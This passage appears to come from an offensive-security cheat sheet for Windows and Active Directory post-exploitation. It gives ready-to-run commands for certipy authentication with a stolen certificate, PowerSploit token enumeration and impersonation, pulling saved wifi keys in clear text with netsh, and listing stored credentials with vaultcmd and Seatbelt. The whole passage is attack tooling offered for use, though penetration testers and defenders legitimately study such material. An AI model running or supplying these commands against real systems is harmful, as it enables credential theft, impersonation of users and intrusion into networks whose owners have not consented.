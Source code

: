 #### Auth with certipy
- Use the NTLM hash or `.ccache` file for authentication
```
certipy auth -pfx "cert-unprotected.pfx" -dc-ip <DC IP>
```

## Token manipulation
- https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Invoke-TokenManipulation.ps1

#### List all tokens on a machine
```
Invoke-TokenManipulation –ShowAll
```

#### List all unique, usable tokens on the machine
```
Invoke-TokenManipulation -Enumerate
```

#### Start a new process with token of a specific user
```
Invoke-TokenManipulation -ImpersonateUser -Username "domain\user"
```

#### Start news process with token of another process
```
Invoke-TokenManipulation -CreateProcess "C:\Windows\system32\WindowsPowerShell\v1.0\PowerShell.exe" -ProcessId 500
```

## Get the wifi password
### Get saved wifi networks
```
netsh wlan show profiles
```

#### Get key from saved wifi network
```
netsh wlan show profiles name=<NAME> key=clear
```

## DPAPI
- https://www.ired.team/offensive-security/credential-access-and-credential-dumping/reading-dpapi-encrypted-secrets-with-mimikatz-and-c++

#### Enumerate user's vault
```
vaultcmd /list
vaultcmd /listcreds:"Windows Credentials" /all
vaultcmd /listcreds:"Web Credentials" /all

./Seatbelt.exe WindowsVault

./Seatbelt.exe WindowsCredentialFiles
```
